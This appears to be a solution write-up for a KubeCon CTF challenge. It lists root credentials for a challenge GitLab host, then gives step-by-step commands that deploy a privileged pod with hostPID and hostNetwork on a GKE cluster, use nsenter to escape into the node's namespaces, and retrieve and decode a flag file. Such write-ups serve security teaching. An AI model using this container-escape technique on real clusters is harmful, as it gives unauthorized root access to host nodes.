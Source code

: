 # Solution

## Part 1 - Gitlab

- Access <gitlab.foobar.com>
  - Use credentials:
    - u: `root`
    - p: `Ikn0wwh@ty0ud1dl@5tKub3C0n3`
  - 

# Challenge 1 - Aut0m0tiv3 - Solution

Connect to GKE cluster:
```bash
gcloud container clusters get-credentials kubecon-na-22-ctf-1 --zone europe-central2-a --project cilium-dev
```

Modify the pod spec and include the "hostPID", "hostNetwork", "privileged" flags and set it to true:
```bash
cat car-the-privileged-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: car-the-privileged-pod
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: car-the-privileged-pod
    image: nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

Apply it:
```bash
kubectl apply -f car-the-privileged-pod.yaml
pod/car-the-privileged-pod created
```

Exec into pod:
```bash
kubectl exec -it car-the-privileged-pod -- /bin/bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/#
```

Enter into all the namespaces:
```bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/# nsenter -t 1 -m -u -n -i -p bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / #
```

Find the flag:
```bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / # find .  -name "*flag*" -print
./home/car_capital/f0rd_flag.png
```

The file is `./home/car_capital/f0rd_flag.png`

Get the content:
```bash
cat ./home/car_capital/f0rd_flag.png

aHR0cHM6Ly9kcml2ZS5nb29nbGUuY29tL2ZpbGUvZC8xTi12Nms0YVNpNnFvMXgyY3BJS1IwbjVW
R0dXMFh4a1Qvdmlldw==
```

Decode it from base64:
```bash
base64 -d /home/car_capital/f0rd_flag.png

https://drive.google.com/file/d/1N-v6k4aSi6qo1x2cpIKR0n5VGGW0XxkT/view
```

Open the link, get the car picture :)
